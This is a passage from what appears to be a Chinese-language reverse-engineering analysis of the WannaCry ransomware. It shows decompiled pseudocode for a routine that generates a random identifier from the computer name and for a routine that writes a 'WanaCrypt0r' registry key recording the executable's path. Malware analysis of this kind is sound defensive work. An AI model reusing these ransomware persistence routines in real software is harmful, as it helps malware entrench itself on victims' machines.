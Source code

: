 ```c
// 随机取了一个字符串 假设：cecazrsga  

while ( v4 < v5 );  

}  

v6 = v5 + 3;  

while ( v4 < v6 )  

*(_BYTE *)(v4++ + RandResult) = rand() % 0xA + 0x30;// 随机取了一个数字122  

result = RandResult;  

*(_BYTE *)(v4 + RandResult) = 0;  

return result;   }  // 最后的结果等于两次随机结果拼在一起 cecazrsga122  
```

病毒首先获取计算机名ASCII码的连乘，并以其作为种子利用rand()函数得到一对字母+数字的随机数作为随机字符串

### 5.2.2 SetReg 设置注册表项

```c
signed int __cdecl SetReg(int a1) {    

wcscat(&Dest, Source);    
// 字符串拼接->SoftwareWanaCrypt0r   

v12 = 0;  

while ( 1 )  

{  

if ( v12 )  

RegCreateKeyW(HKEY_CURRENT_USER, &Dest, &hKey);  

else  

RegCreateKeyW(HKEY_LOCAL_MACHINE, &Dest, &hKey);// 创建了注册表项  

if ( hKey )  

{  

if ( a1 )  

{  

GetCurrentDirectoryA(0x207u, &Buffer);  // 获取当前的进程所在目录  

v1 = strlen(&Buffer);                   // 获取所在目录的长度  

v2 = RegSetValueExA(hKey, ValueName, 0, 1u, (const BYTE *)&Buffer, v1 + 1) == 0;// 将当前exe所在的路径设置为注册表项的值  

}  

else  

{  

```